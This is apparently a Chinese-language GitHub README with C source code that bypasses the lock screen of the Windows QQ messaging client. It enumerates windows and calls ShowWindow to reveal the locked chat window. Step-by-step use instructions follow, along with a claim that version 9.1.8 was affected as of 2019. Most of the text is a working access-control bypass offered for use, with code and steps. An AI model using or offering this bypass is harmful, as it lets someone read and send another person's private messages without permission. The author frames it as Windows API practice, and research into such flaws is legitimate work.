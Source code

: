 # Bypass-QQ-lock-under-Windows
绕过Windows版本QQ锁定

## 概述
参考了Windows版本QQ锁定可被绕过https://mp.weixin.qq.com/s/2hnjrYvq4j0n-NYnDIaPMw 这篇文章。原文用的是Java实现的，这里用C语言实现一下，练习一下对WindowsAPI的调用。
顺便说一下，LookHandles.exe可以方便地操作句柄。

## 代码说明
使用EnumWindows()函数获取顶层窗口的句柄，并将句柄传入EnumWindowsProc()

使用GetWindowLongPtr(hwnd,GWL_STYLE)获取句柄的样式

锁定后QQ原来的界面的样式变为2248933376

ShowWindow(hwnd,1)使QQ原来的界面再次显示。

可在
微软官方网站https://docs.microsoft.com/en-us/
查看函数的具体信息

## 代码
```c
#include<Windows.h>

BOOL CALLBACK EnumWindowsProc(HWND hwnd,LPARAM lParam)
{	

    char pcName[1024] = "";
    GetWindowText(hwnd,pcName,sizeof(pcName));	
    
	if(GetWindowLongPtr(hwnd,GWL_STYLE) == 2248933376)
	{
		ShowWindow(hwnd,1);
		printf("locked : %d\n",hwnd) ;
	}

	if(strcmp(pcName,"QQ")==0)
    {
        printf("unloxked : %d\n",hwnd);
    	ShowWindow(hwnd,1);
    }
    return TRUE;
}

int main(int argc,char *argv)
{
        EnumWindows(EnumWindowsProc,-1);
        system("pause");
        return 0;
}

```

## 利用步骤
登录Windows下QQ账号，

锁定QQ，Ctrl+Alt+L

将漏洞利用代码编译成可执行文件，运行后可出现未锁定的QQ界面，可正常操作QQ界面，如发消息，查看联系人信息

程序输出：

unloxked : 未锁定的QQ界面的十进制句柄

loxked : 锁定的QQ界面的十进制句柄

截止2019/10/15，9.1.8版本的QQ可正常绕过锁定。

## 参考链接
1. Windows版本QQ锁定可被绕过
https://mp.weixin.qq.com/s/2hnjrYvq4j0n-NYnDIaPMw 
2. Technical documentation, API, and code examples | Microsoft Docs
https://docs.microsoft.com/en-us/
